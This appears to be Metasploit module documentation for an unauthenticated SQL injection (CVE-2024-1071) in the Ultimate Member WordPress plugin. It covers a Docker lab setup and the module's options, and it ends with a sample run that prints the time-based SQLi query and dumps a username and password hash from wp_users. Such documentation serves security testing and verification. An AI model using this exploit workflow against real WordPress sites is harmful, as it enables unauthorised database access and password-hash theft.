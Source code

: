 ## Vulnerable Application

The vulnerability affects the **Ultimate Member** plugin for WordPress, versions
**2.1.3 to 2.8.2**, allowing **unauthenticated SQL injection** (unauth SQLi) via
the `sorting` parameter.
This plugin has over **200,000 active installations**, making this a significant security issue.

### Pre-requisites:
   - **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Here is the content of the **docker-compose.yml** file to set up WordPress
   with the vulnerable Ultimate Member plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

3. **Install Ultimate Member Plugin**:
   - Download the vulnerable version of the Ultimate Member plugin:

```bash
wget https://downloads.wordpress.org/plugin/ultimate-member.2.8.2.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip ultimate-member.2.8.2.zip
docker cp ultimate-member wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **Ultimate Member** plugin in the WordPress admin panel.

4. **Enable Custom Account Metadata Table**:
   - Navigate to `http://localhost:5555/wp-admin/admin.php?page=um_options&tab=misc`
   and enable the **Use a custom table for account metadata** option.

## Verification Steps

1. **Set up WordPress** with the vulnerable **Ultimate Member 2.8.2** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
   use auxiliary/scanner/http/wp_ultimate_member_sorting_sqli
```

4. Set the target's IP and URI:

```bash
   set RHOST <target_ip>
   set TARGETURI /
```

5. **Run the module**:

```bash
   run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to retrieve or manipulate data from the WordPress database.

## Options

### DIR_ID_MIN and DIR_ID_MAX
These options specify the range of `directory_id` values used to bruteforce the ID during the SQL injection attack.
By default, they are set from 1 to 100, but you can adjust this range based on your target.

### COUNT
This option specifies the number of rows to retrieve from the database during the SQL injection attack.
For example, setting `COUNT` to 5 will retrieve 5 rows from the `wp_users` table.

### PAGE_ID_MIN and PAGE_ID_MAX
These options specify the range of `page_id` values used to locate the pages containing the nonce required for the SQL injection.
By default, they are set from 1 to 20, but you can adjust this range based on your target.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress
installation running **Ultimate Member 2.8.2** on a Docker environment with MySQL.

### Step-by-step Scenario

```bash
msf6 auxiliary(scanner/http/wp_ultimate_member_sorting_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection for CVE-2024-1071 via the 'sorting' parameter...
[*] Getting nonce...
[+] Nonce retrieved: 1ab37a3d8f
[*] Searching for valid directory id between 1 and 100...
[+] Valid directory ID found: b9238 (tested with 1)
[*] {SQLi} Executing (select group_concat(VTKTaFWa) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) VTKTaFWa from wp_users limit 1) Dc)
[*] {SQLi} Encoded to (select group_concat(VTKTaFWa) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xfb,0)),ifnull(user_pass,repeat(0x20,0))) as binary) VTKTaFWa from wp_users limit 1) Dc)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240922050825_default_127.0.0.1_wordpress.users_421054.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
